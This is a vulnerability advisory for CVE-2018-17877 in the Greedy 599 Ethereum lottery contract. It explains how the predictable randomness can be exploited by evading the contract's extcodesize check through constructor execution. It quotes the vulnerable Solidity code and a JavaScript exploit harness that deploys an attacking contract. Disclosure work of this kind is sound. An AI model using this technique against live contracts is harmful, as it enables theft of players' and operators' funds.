

# CVE-2018-17877

## Vendor
Greedy 599

## Vulnerability Type
Bad Randomness

## Abstract
We found a vulnerability in smart contract of `Greedy 599` which is an Ethereum lottery implementation. This contract generates a random value that is predictable via an external contract call. The developer used the extcodesize() function to prevent a malicious contract from being called, but the attacker can bypass it by writing the core code in the constructor of their exploit code. Therefore, it allows attackers to always win and get rewards.


## Details
`Greedy599` is a Ethereum gambling game. 


          *Figure 1. Greedy599 Dapp Website*


In this contract, the developer used a mitigation that does not allow a contract to access their contract. (Line 115,116).

```
    //Buy some greedy heart
    function buyHeart(address referred) public payable {
        
        require(msg.value >= 1000000000, "pocket lint: not a valid currency");
        require(msg.value <= 100000000000000000000000, "no vitalik, no");
        
        address _addr = msg.sender;
        uint256 _codeLength;
        assembly {_codeLength := extcodesize(_addr)}
        require(_codeLength == 0, "sorry humans only");

```

Here, the developer demanded extcodesize of msg.sender to be 0. Extcodesize(A) assembly function returns the size of the code at address A. If the extcodesize of address A is not 0, it is likely to be a contract address, since the contract address will contain the code area. However, when a contract is deployed in the blockchain, the blockchain first put the constructor and initialize code size as 0. So if the attacker calculate the random number in constructor, they can easily bypass this logic.


## Exploit
```

function attack(tracker){
  var gas = 500000;

  var res;
  contract.deploy({data:'0x' + bytecode, arguments:[targetAddr, tracker]}).send({from:wallet, value:pwneth.toWei('0.1', 'ether'), gas:gas}).then(e=>{res = e;}).catch(e=>{console.log('No!!! send error ->' + e); res=false});
  require('deasync').loopWhile(function(){return res == undefined});

  console.log("Addr : " + res._address)
  var balance;
  web3.eth.getBalance(wallet).then(e=>{balance = e});
  require('deasync').loopWhile(function(){return balance == undefined});
  console.log('my Balance : ' + pwneth.fromWei(balance, 'ether') + ' eth')

  return res;
}

```


## Conclusion
Most of gambling and lottery smart contracts which internally have their own pseudo random number generator might have a Bad Randomness vulnerability. This is because the information in the blockchain is transparent and the variables that make up the random number can be accessed and calculated through the contract.

## Reference
Official Website

https://greedy599.com

Explorer

https://etherscan.io/address/0x3bb5e74f7ff56e0b64d326f8ec07236aa4a07260

Code

https://etherscan.io/address/0x3bb5e74f7ff56e0b64d326f8ec07236aa4a07260#code

## Discoverer
Team Code4Block
